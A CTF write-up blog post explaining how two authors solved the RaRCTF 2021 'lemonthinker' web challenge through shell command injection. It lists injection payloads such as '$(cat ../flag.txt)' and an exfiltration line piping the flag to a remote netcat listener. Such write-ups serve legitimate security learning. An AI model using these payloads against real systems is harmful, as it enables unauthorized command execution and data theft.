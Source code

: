 ```yaml
---
layout: post
title: lemon thinker rarctf 2021 Web Challenges Writeup                               # Title of the page
hide_title: false                                  # Hide the title when displaying the post, but shown in lists of posts
feature-img: "assets/img/writeups/lemon-thinker/Screenshot_1.png"              # Add a feature-image to the post
thumbnail: "assets/img/writeups/lemon-thinker/Screenshot_1.png"  # Add a thumbnail image on blog view
color: dufault                            # Add the specified color as feature image, and change link colors in post
bootstrap: true                                   # Add bootstrap to the page
author: abdoghazy
excerpt_separator: <!--more-->
tags: [ctf, writeup, Web]
---
```

<h1>lemon thinker rarctf 2021 Web Challenges Writeup </h1>  
 <!--more-->

Hello all , we hope all of you is well 
This writeup is from Abdoghazy , Mohamed Tarek
Today we will explain how we could solve lemonthinker web challenge from rarctf .

<img src="https://github.com/0xL4ugh/0xl4ugh.github.io/raw/main/assets/img/writeups/lemon-thinker/Screenshot_1.png" /> 

As we See This is an input and "Generate Your lemonthinker" 
after trying it we got this photo
 
<img src="https://github.com/0xL4ugh/0xl4ugh.github.io/raw/main/assets/img/writeups/lemon-thinker/Screenshot_2.png" /> 

note that the source code is attached so let's see what inisde it 
<img src="https://github.com/0xL4ugh/0xl4ugh.github.io/raw/main/assets/img/writeups/lemon-thinker/Screenshot_3.png" /> 

As we see at line 24 it takes the name from me and passes it to the command that running another script
and there is no filtertion for the input that passes into the command so for sure we thought it's a command injection
note that the os is linux 
the command : python3 generate.py {filename} \"{text}\" 
the user input will be insted of {text} so we will inject there 

as always we tried these payloads : ";id , ||whoami , &&id"

but unforently it's not working with us then we see that the input is passes into "" two double qoutes 
so our payloads didn't working and as we learn at bash we could execute commands from this "$(ls)"
and when we tried it we got the response from the server Alhamdullah

<img src="https://github.com/0xL4ugh/0xl4ugh.github.io/raw/main/assets/img/writeups/lemon-thinker/Screenshot_4.png" /> 

note : we tried to get reverse shell but no waaay :(
so after this let's read the flag !!

note that we got that the flag is in ../flag.txt from the source 

so i tried :  $(cat ../flag.txt) and it returned this photo :

<img src="https://github.com/0xL4ugh/0xl4ugh.github.io/raw/main/assets/img/writeups/lemon-thinker/Screenshot_5.png" /> 

so let's read the source of generate.py to know why 

<img src="https://github.com/0xL4ugh/0xl4ugh.github.io/raw/main/assets/img/writeups/lemon-thinker/Screenshot_6.png" /> 

as you see at line 39 if the rarctf in the respone it will give us the image that we see
so i tried to use this command : $(rev ../flag.txt)  and got this response !

pic 7 

as you see we cannot read more than 18 char and there is many chars (it's more that 70 char :) )
so there is two ways to read the flag : 

First Way to use this command to read the flag part by part : $(cat ../flag.txt | cut -c 0-3) 

Then The Second Way and i think it's an amazing way xD 
after we solved it by the first way i had to travel to my Collage and when i on my way i got this idea ;)
i know when two hosts just connected togheter in same port by nc they could contact like a Chat :D 
so what if we tried to open listner on port 4444 and tried to sent the flag on it by this command 

$(rev ../flag.txt | nc ip port )
and we got the full flag by one Command Alhamdullah :D 3> 

last pic 
